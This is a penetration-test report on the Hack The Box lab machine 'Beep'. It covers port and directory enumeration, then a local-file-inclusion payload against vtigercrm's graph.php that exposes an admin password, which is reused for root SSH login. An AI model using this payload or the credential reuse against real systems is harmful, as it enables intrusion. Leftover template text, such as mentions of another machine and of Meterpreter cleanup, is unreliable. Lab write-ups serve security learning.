

# Beep

## Introduction

This report is about pentesting a specific machine to see if it's well secured. It will document every thought and interesting investigation that helped to get into privilege escalation.  

## Objective

Run an analysis onto a specific machine 10.129.87.168

## Perimeter

Only this machine (10.129.87.168 ) with specific tools

- nmap
- masscan
- ssh

# High-Level Summary

## Mitre techniques

Initial Access:  

- N/A  

Execution:  

- N/A

Persistence:  

- N/A  

Privilege Escalation:  

- N/A

Defense Evasion:  

- N/A

Credential Access:  

- N/A

Discovery:  

- N/A

Lateral Movement:

- N/A

Collection:  

- N/A  

Command and Control:  

- N/A

Exfiltration:  

- N/A  

Impact:  

- N/A

## Recommendations

I recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.  

Also, I recommend a better management of granted access for software to avoid root execution (if possible).  

Check other recommendations at the end of this document.  

# Soluces

[ippsec video of Beep](https://www.youtube.com/watch?v=XJmBpOd__N8)  
[soluces from ](https://github.com/michoo/sec-learning/blob/master/soluces/1_Linux/beep-writeup-w-o-metasploit.md)  
[soluces from Hack the box](https://github.com/michoo/sec-learning/blob/master/1_Linux/Beeo/soluce/Beep.pdf)

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Exam environments is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Reconnaissance

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the shocker machine.

The specific IP addresse was:

**Scope**

- 10.129.87.168  

My attacking ip machine was 10.10.14.91

First we have to start access to Hackthebox network.  

```bash
sudo openvpn file.ovpn
```

## System IP: 10.129.87.168  

### Enumeration

First scan on all ports on tcp and udp  

```bash
sudo masscan -p1-65535,U:1-65535 10.129.87.168 --rate=500
```

-> only 53... strange, let's use nmap  

```bash
mkdir nmap
sudo nmap -sC -sV -O -oA nmap/initial 10.129.87.168
    -sC: run default nmap scripts
    -sV: detect service version
    -O: detect OS
    -oA: output all formats and store in file nmap/initial

```

  
  

#### TCP

#### UDP

#### Web Services

On port 443:  


```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e magictree -t 20 --hc '403,404' http://10.129.87.168/FUZZ > wfuzz.results
```

NB: check folder /usr/share/wfuzz/wordlist/

-> nothing really usefull (sorry no printscreen)

#### Other Services

#### Harvested Informations

Seems that is a web application for an IPBX solution called Elastix.

By navigating we tried simply http://10.129.87.168/admin/ and we found:  



When cancel we fall back into a screen from FreePBX maybe the opensource solution on top of Elastix stack.

We gathered a version information  


-> freePBX version is 2.8.1.4

#### Vuln Investigation

##### Check for exploits

```bash
searchsploit --id freepbx
searchsploit --id elastix
```


tried some but this one is good for elastix https://www.exploit-db.com/exploits/37637

##### Check for informations on web

N/A

### Penetration

```http
https://10.129.87.168/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

```

  

  

-> not working outside localhost  
   


  

-> let's use it admin/jEhdIekWmdjE

On FreePBX:  
Many menus, some pistes
  
  
  

On Elastix: 
   
  
  
  
  
  

-> nothing

Let's check ssh with admin/jEhdIekWmdjE

with admin it's not working, let's try with root as in java ssh and same password


### Post exploitation

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc root@10.129.87.168 
cat root.txt
```

#### Host Information

#### File system

#### Running processes

#### Installed applications

#### Users & Group

#### Network

#### Scheduled job

### Privilege escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

### Goodies

#### Hashes

#### Passwords

#### Proof/Flags/Other

**Proof Screenshot Here:**

**Proof.txt Contents:**

```bash
[root@beep ~] cat root.txt 
fb691079a0a90338eb4541aafe21----

```

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the exam network was completed, Alec removed all user accounts and passwords as well as the Meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Detailed Recommandations

## Technical

- no opening ssh to root
- patching old version
- no admin of software has to be root

## Governance

## Blue team

- ???

# Additional Items

## Appendix - Proof and Local Contents

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.129.87.168  | N/A          | fb691079a0a90338eb4541aafe21----
